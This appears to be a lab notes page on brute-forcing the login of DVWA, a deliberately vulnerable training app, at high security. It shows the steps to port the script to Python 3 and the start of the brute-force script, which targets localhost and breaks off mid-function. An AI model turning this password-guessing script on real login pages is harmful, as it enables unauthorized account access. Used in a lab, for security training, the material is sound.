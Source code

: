 	> Original code taken from [Danny Beton](https://medium.com/@dannybeton/dvwa-brute-force-tutorial-high-security-456e6ed3ae39).

	Changes needed from the [Security Tutorials article](https://securitytutorials.co.uk/brute-forcing-web-logins-with-dvwa/):
	1. `sudo pip3 install bs4, 2to3`
	2. `sudo apt install 2to3`
	3. Conversion of the script from Python2 to Python3: `2to3 -w csrf_script.py` 
	4. Modify bs4 import: `from BeautifulSoup import BeautifulSoup as Soup` to `from bs4 import BeautifulSoup as Soup`.

	> Documentation: [bs4](https://pypi.org/project/beautifulsoup4/), [2to3](https://docs.python.org/3/library/2to3.html).  


	```python
	# modified code
	from sys import argv
	import requests
	from bs4 import BeautifulSoup as Soup

	# give our arguments more semantic friendly names
	script, filename, success_message = argv
	txt = open(filename)

	# set up our target, cookie and session
	url = 'http://127.0.0.1:42001/vulnerabilities/brute/index.php'
	cookie = {'security': 'high', 'PHPSESSID':'ud36qu65oddvmncfg54n515nhn'}
	s = requests.Session()
	target_page = s.get(url, cookies=cookie)

	''' 
	checkSuccess
	@param: html (String)

	Searches the response HTML for our specified success message
	'''
	def checkSuccess(html):
	# get our soup ready for searching
	soup = Soup(html, features="lxml")
	# check for our success message in the soup
	search = soup.findAll(text=success_message)
	
	if not search:
	success = False

	else:
	success = True
